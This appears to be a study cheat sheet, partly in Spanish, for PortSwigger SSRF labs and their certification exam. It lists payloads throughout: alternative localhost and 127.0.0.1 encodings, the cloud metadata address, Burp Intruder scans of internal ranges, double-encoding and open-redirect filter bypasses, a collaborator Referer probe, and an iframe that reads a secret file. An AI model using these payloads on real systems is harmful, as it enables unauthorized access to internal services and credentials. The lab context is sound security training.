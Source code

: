 Los bellos ataques server side request forgery, poder nosotros acceder a info privada, interna de un servidor desde la interfaz visual de la aplicación en internet, este ataque es seguro que puede aparecer en el stage `3` para poder acceder al secret. 

> SSRF Sample payloads.

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```

> Alternative IP representation of `127.0.0.1`:

1. 2130706433
2. 017700000001
3. 127.1
# SSRF Payloads

> Server side request forgery

```
127.0.0.1
127.1
169.254.169.254
```

```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```

```
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```

```
017700000001
```

<hr>

- Direct SSRF:

```
stockApi=http://localhost/admin/
```

- Find Endpoint in Intruder:

```html
stockApi=http://192.168.0.§1§:6566/admin //BURP INTRUDER
```

- Blind with referer:

```
Referer: http://BURP-COLLABORATOR.com
```

- Simple Bypasses:

```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user, o simplemente codear todo a doble url, esto: /admin
```

- Via Open Redirection:

```
Redirection in:
/product/nextproduct?path=http://192.168.0.12:6566/admin

stockApi=/product/nextProduct?currentProductId=4%26path=http://192.168.0.12:8080/admin/delete?username=carlos

stockApi=/product/nextProduct?currentProductId=4%26path=http://192.168.0.12:6566/admin/delete?username=carlos
```

You can change the URL of stockApi to make another api action, such as delete a user

```html
stockApi=http://localhost/admin/delete?username=carlos
```

##### Basic SSRF against another back-end system 

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`. Send to Intruder:

**SSRF localhost:6566 o 192.168.0.[burp intruder]** Como recomendacion portswigger dice que para los ataques durante el examen si se encuentra un SSRF es tirarlo por el puerto 6566

```html
stockApi=http://192.168.0.§1§:8080/admin //BURP INTRUDER
stockApi=http://192.168.0.§1§:6566/admin //BURP INTRUDER
```

We find out that .31 has different lenght and we can delete carlos

```html
stockApi=http://192.168.0.31:8080/admin/delete?username=carlos
stockApi=http://192.168.0.31:6566/admin/delete?username=carlos
```

Exam SSRF

```
{"table-html":"<div><p>Report Heading</p><iframe src='http://localhost:6566/home/carlos/secret'"}
```

##### Blind SSRF with out-of-band detection

Change referer header to your collaborator

```
...
Sec-Fetch-Dest: document
Referer: http://BURP-COLLABORATOR.com
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```

##### SSRF with blacklist-based input filter


```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.
```

##### SSRF with filter bypass via open redirection vulnerability

To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

Recordemos, for the exam the port must be: `6566` 

```
Changing directly is blocked, but we can abuse an open redirection vuln in /product/nextproduct?path=http://192.168.0.12:8080/admin

Observe that the stock checker follows the redirection and shows you the admin page.

Change stockApi from before to: /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

```